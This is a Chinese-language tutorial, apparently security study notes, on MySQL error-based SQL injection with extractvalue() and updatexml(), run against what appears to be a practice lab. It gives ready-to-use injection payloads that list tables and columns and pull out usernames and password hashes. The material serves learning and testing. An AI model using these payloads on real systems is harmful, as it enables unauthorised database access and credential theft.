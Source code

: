 ### 1、基础知识：
#### mysql中，16进制在语句在执行过程中，不需要加引号
![image](https://github.com/498946975/Security/blob/master/images/sql_27.png)
![image](https://github.com/498946975/Security/blob/master/images/sql_28.png)
```sql
select '~' == select 0x7e
```
#### group_concat和concat
```yaml
group_concat: 把同一列的，多行，拼接到一起
concat: 把同一行的，多个数据，拼接到一起
```
```sql
SELECT concat(username,create_date) FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_29.png)
#### mysql中extractvalue函数
```yaml
extractvalue函数，在执行过程中，会解析sql语句，并返回
```
```shell script
extractvalue(x,y)
x: xml文件的名称，在注入的过程中随便写
y: xml文件的路径，concat(0x7e,sql语句)
```
#### limit函数
```sql
limit 1,1 #  从第一个开始返回，返回1个
limit 2,1 #  从第二个开始返回，返回1个
```

### 2、所有sql注入的逻辑
```shell script
爆库名-->爆表名-->爆列名-->最后才能得到数据
```
### 3、爆库名称
```sql
SELECT username FROM `user` WHERE id='1' AND extractvalue (1,concat(0x7e,DATABASE ()));#
```
```sql
1' and extractvalue(1,concat(0x7e,database()));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_32.png)
### 4、爆表的数量
```sql
表的数量
SELECT COUNT(table_name) FROM information_schema.`TABLES` WHERE table_schema = DATABASE()
```
```sql
爆破语句
1' AND extractvalue (1, concat(0x7e,(SELECT COUNT( table_name ) FROM information_schema.`TABLES` WHERE table_schema = DATABASE ())));#'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_30.png)
```yaml
XPATH syntax error: '~5'
其中，5，就是爆破出来的表的个数
```
### 5、爆表名称
```sql
SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1
```
```sql
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1 )));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_31.png)
#### 总共5个表，分别爆破出来名称是
```sql
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1 )));# member
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 2,1 )));# message
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 3,1 )));# users
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 4,1 )));# xssblind
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 0,1 )));# httpinfo
```

### 6、爆users表中，列的数量和名称
```sql
users表中的列的数量
1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where  table_schema = DATABASE () and table_name='users')));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_33.png)
```sql
users表中，第一列的名称
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 0,1)));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_34.png)
#### 总共4列，分别爆破出来的名称是
```sql
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 0,1)));# id
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 1,1)));# username
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 2,1)));# password
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 3,1)));# level
```
### 7、爆破users表的具体数据
#### 先得到id这一列的数据
```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(id) from users )));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_35.png)
#### 再分别得到id=1，2，3的用户名和密码
```sql
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=1)));# admine10adc3949ba59abbe56e057f2
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=2)));# pikachu670b14728ad9902aecba32e2
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=3)));# teste99a18c428cb38d5f2608536789
```
#### 由于报错的位置显示字符数量有限，可以使用substr()函数
```sql
SUBSTR(显示的内容 FROM 1 FOR 4) 	# 从第1个开始的，显示到第4个字符
```
```sql
1' and extractvalue(1,concat(0x7e,(select SUBSTR(concat(username,password) FROM 1 FOR 4) from users where id=1)));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_36.png)

### 8、updatexml()这个sql函数也可以使用sql报错注入
```sql
updatexml(x, y, z)
x: 随便写
y: sql语句
z: 随便写
```